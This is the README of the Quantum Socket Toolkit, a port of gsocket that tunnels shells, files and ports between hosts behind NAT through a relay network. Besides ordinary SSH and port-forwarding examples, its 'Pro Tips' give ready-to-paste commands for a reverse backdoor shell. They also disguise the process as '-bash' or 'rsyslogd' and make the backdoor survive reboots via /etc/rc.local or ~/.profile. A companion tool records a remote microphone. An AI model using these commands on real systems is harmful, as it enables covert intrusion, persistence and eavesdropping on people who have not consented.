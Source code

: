 # Quantum Socket Toolkit
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  ![Docker Pulls][docker-pulls]
  [![License: MIT][license-img]][license]
</div>

[release]: https://github.com/qsocket/qsocket/releases
[release-img]: https://img.shields.io/github/v/release/qsocket/qsocket
[downloads]: https://github.com/qsocket/qsocket/releases
[downloads-img]: https://img.shields.io/github/downloads/qsocket/qsocket/total?logo=github
[issues]: https://github.com/qsocket/qsocket/issues
[issues-img]: https://img.shields.io/github/issues/qsocket/qsocket?color=red
[docker-pulls]: https://img.shields.io/docker/pulls/qsocket/qsocket?logo=docker&label=docker%20pulls
[license]: https://raw.githubusercontent.com/qsocket/qsocket/master/LICENSE
[license-img]: https://img.shields.io/github/license/qsocket/qsocket.svg
[workflow-img]: https://github.com/qsocket/qsocket/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/qsocket/qsocket/actions/workflows/main.yml
[qsrn]: https://www.qsocket.io/qsrn/


The Quantum Socket Toolkit allows two system behind NAT/Firewall to establish a TCP/TLS connection with each other. 

The qsocket library locally derives a universally unique identifier (UUID) and connects two devices through the Quantum Socket Relay Network [(QSRN)][qsrn] regardless and independent of the network layers, local IP Address or geographical location. The entire qsocket project is ported from the original **[gsocket](https://github.com/hackerschoice/gsocket) toolkit of THC**. 

## But Why?
So why did you reinvent the wheel? Simply because we wanted our own wheel :) Due to several design choices of THC and the nature of the project we were not comfortable using the GSRN for our own business. So we decided to create our own version to our own liking. We also wanted to modernize the project by porting it to Go/Rust, add new features, more platform support, and scalability.

<div align="center">
  <img src=".github/img/gorust.jpg">
</div>

The Quantum Socket Toolkit comes with a set of tools:
* **qsocket** - Redirects the traffic of an existing program (binary) over the QSRN. It does so by hooking fundamental socket libraries inside libc using LD_PRELOAD method. (Experimental)
* [**qs-netcat**](https://github.com/qsocket/qs-netcat) - Netcat on steroids. Turn netcat into an TLS encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (```qs-netcat -s MySecret -i```), integrated file-transfer, redirect traffic or give somebody temporary shell access.
* [**qs-mic**](https://github.com/qsocket/qs-mic) - Access (record audio) the microphone devices of a remote system. (```qs-mic -s MySecret -d 10```)
* ...many more examples and tools.

## Installation

|     Tool      |                          **Build From Source**                           |                    **Binary Release**                     |
| :-----------: | :----------------------------------------------------------------------: | :-------------------------------------------------------: |
|  **qsocket**  | ```git clone https://github.com/qsocket/qsocket && cd qsocket && make``` |  [Download](https://github.com/qsocket/qsocket/releases)  |
| **qs-netcat** |           ```go install github.com/qsocket/qs-netcat@master```           | [Download](https://github.com/qsocket/qs-netcat/releases) |
|  **qs-mic**   |       ```cargo install --git https://github.com/qsocket/qs-mic```        |  [Download](https://github.com/qsocket/qs-mic/releases)   |
|  **qs-lite**  |       ```cargo install --git https://github.com/qsocket/qs-lite```       |  [Download](https://github.com/qsocket/qs-lite/releases)  |

***Docker Install***

[![Docker](http://dockeri.co/image/egee/qsocket)](https://hub.docker.com/r/egee/qsocket/)

```bash
docker pull qsocket/qs-netcat
docker run -it qsocket/qs-netcat -h
```


### Supported Platforms
Qsocket toolkit supports 12 platforms on 11 architecture, check **Supported Platforms** below for detailed table.

<details>
<summary>Supported Platforms</summary>

|     Tool      | **Linux** | **Windows** | **Darwin** | **FreeBSD** | **OpenBSD** | **NetBSD** | **Android** | **IOS** | **Solaris** | **Illumos** | **Dragonfly** | **AIX** |
| :-----------: | :-------: | :---------: | ---------- | ----------- | ----------- | ---------- | ----------- | ------- | ----------- | ----------- | ------------- | ------- |
|  **qsocket**  |     ✅     |      ❌      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| **qs-netcat** |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-lite**  |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-mic**   |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| ~**qs-cam**~  |     🚧     |      🚧      | 🚧          | 🚧           | 🚧           | 🚧          | 🚧           | 🚧       | 🚧           | 🚧           | 🚧             | 🚧       |

</details>

---

## Examples

https://user-images.githubusercontent.com/17179401/224060762-e0f121f6-431b-4eb5-8833-4a5d533003de.mp4

<details>
<summary>RDP connection over QSRN</summary>

https://user-images.githubusercontent.com/17179401/213314447-65ecaf43-89fd-48bd-a242-3345f6baf185.mov

</details>

<details>
<summary>ADB access over QSRN</summary>

https://user-images.githubusercontent.com/17179401/216651601-6ddc8ddf-7248-4c2b-bd77-00f00f773c80.mov

</details>

**Usage:**

- SSH from *Workstation B* to *Workstation A* through any firewall/NAT
```
$ qs-netcat -f "localhost:22" -l  # Workstation A
$ qsocket ssh root@qsocket        # Workstation B
```

- Log in to Workstation A from Workstation B through any firewall/NAT
```
$ qs-netcat -l -i   # Workstation A
$ qs-netcat -i      # Workstation B
```

- Transfer files from *Workstation B* to *Workstation A*
```
$ qs-netcat -q -s MySecret -l > file.txt     # Workstation A
$ qs-netcat -q -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:22 on Workstation's A private LAN from Workstation B:
```
$ qs-netcat -l -f 192.168.6.7:22    # Workstation A
$ qs-netcat -f :2222                # Workstation B
```

- In a new terminal on Workstation B execute:
```
ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Workstation's A private LAN
```

- Execute any command (nc -e style) on *Workstation A*
```
$ qs-netcat -l -e "echo hello world; id; exit"   # Workstation A
$ qs-netcat                                      # Workstation B
```

Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
qs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
qs-netcat -i
```
Listen in on a remote computer microphone for 10 seconds
```
$ qs-mic -l -s MySecret           # Workstation A
$ qs-mic -d 10 -s MySecret --play # Workstation B
```
Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```
$ qs-netcat -l -f :22 -s MySecret                                        # Workstation A
$ ssh -D 9090 -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:9090 http://www.google.com
```

Mount a remote folder using sshfs and qs-netcat
```
$ qs-netcat -l -f :22 -s MySecret # Workstation A
$ qs-netcat -f :9090 -s MySecret  # Workstation B
$ sudo sshfs -o allow_other,default_permissions -p 9090 root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```
$ export QS_ARGS="-s MySecret -l -i -q"
$ exec -a -bash ./qs-netcat &     # Hide as '-bash'.
$ ps alxww | grep qs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

- SSH login to remote workstation
```
# On the remote workstation execute:
qs-netcat -s MySecret -l -f 192.168.6.7:22
```
or
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='qs-netcat -q -s MySecret' root@doesnotmatter
```

- Retain access after reboot
The easiest way to retain access to a remote system is by using [the automated deploy script](https://github.com/qsocket/qs-deploy). Alternatively the following can be used to achieve the same:
Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

QS_ARGS="-s MySecret -l -i -q" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/qs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *qs-netcat*. Puh. The qs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  

Alternatively install qs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start qs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.qsocket.io/deploy):
```
killall -0 qs-netcat 2>/dev/null || (QS_ARGS="-s MySecret -l -i -q" SHELL=/bin/bash exec -a -bash /usr/local/bin/qs-netcat)
```
---
**Crypto / Security Mumble Jumble**
- The connections are **NOT** end-2-end encrypted. This means the operators of the QSRN are able to see the flowing traffic. **But** you can always use your own encryption, QSRN is just a relay network.
- The session key is 128 bit digest of the given secret.
- A brute force attack against a weak secrets requires a new TCP connection for every guess. But QSRN contains a strong load balancer which is limiting the consecutive connection attempts.
- Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *qs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
- If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
- Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice.

---

```
If gs-netcat is a germanic battle axe... than qs-netcat is a turkish döner knife ᕕ(⌐■_■)ᕗ ♪♬ 
```